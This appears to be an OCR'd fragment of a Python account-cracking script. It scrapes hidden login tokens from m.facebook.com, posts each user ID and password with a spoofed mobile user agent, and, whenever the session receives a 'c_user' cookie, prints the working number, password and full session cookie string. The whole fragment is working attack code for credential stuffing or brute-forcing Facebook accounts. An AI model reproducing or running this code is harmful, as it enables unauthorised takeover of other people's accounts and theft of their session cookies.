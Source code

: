            free_fb = session.get('https://m.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "try_number":"0",

            "unrecognized_tries":"0",

            "email":uid,

            "pass":ps,

            "login":"Log In"}

            header_freefb = {'authority':'m.facebook.com',

            'method': 'POST',

            'scheme': 'https',

            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',

            'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9',

            'cache-control': 'max-age=0',

            'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101"',

            'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"',

            'sec-fetch-dest': 'document',

            'sec-fetch-mode': 'navigate',

            'sec-fetch-site': 'none',

            'sec-fetch-user': '?1',

            'upgrade-insecure-requests': '1',

            'user-agent':pro}

            lo = session.post('https://m.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text

            log_cookies=session.cookies.get_dict().keys()

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[24:39]
                print('_'*71)
                print('\033[1;37m[\033[1;32m[✓]\nNUMBER : '+uid+'\nPASSWORD   : '+cid+' Xxxxxx '+ps+ '\nCOOKIE   : '+coki+'\n'+cid+'' )
                print('_'*71)
                